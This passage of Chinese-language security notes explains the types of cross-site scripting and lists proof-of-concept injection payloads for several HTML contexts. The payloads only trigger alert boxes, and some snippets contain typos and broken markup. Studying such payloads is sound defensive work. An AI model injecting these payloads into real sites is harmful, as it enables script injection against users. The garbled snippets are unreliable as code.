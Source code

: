 - 反射型或存储型是**服务端将提交的内容反馈到了HTML源码内**，导致触发XSS。也就是说返回到HTML源码中可以看到触发XSS的代码。

- DOM型XSS只与**客户端上的 JavaScript 交互**，也就是说提交的恶意代码，被放到了js 中执行，然后显示出来。

- 实际上这种类型的XSS不是按照是否保存在服务端来划分的，从效果上来说它也是一种反射型XSS但是因为它的形成比较特别，发现它的安全专家专门提出了这种类型的XSS



## XSS输出点

- HTML中输出：

  ```html
  <div class=test>
  <script>alert(/2333/)</script>		//alert中可以写"2"代替/2/
  </div>
  ```

- 事件中输出：

  ```html
  <div class=test>
  <img src=1 onerror=alert(document.domain);>
  </div>
  ```

- 属性中输出：

  ```html
  <div class=test>
  <input name="content" value="onmouseover=alert(/2333/)/>"
  </div>
  ```
  
- CSS中输出：

  ```html
  <div class=test style="backgroud-image:url('javascript:alert(/2333/)')">
  </div>
  ```
```
  
- script标签中输出：

  ```html
  <script>
  vas a = "123"; alert(/2333/);";
  </script>
```

- 地址栏中输出：

  ```html
  <a href="javascript:alert(/2333/);">点击查看链接</a>
  
  <a href="data:text/html;base64,XXXXXXXXXX">XXXXX</a>
  ```

  

## XSS利用

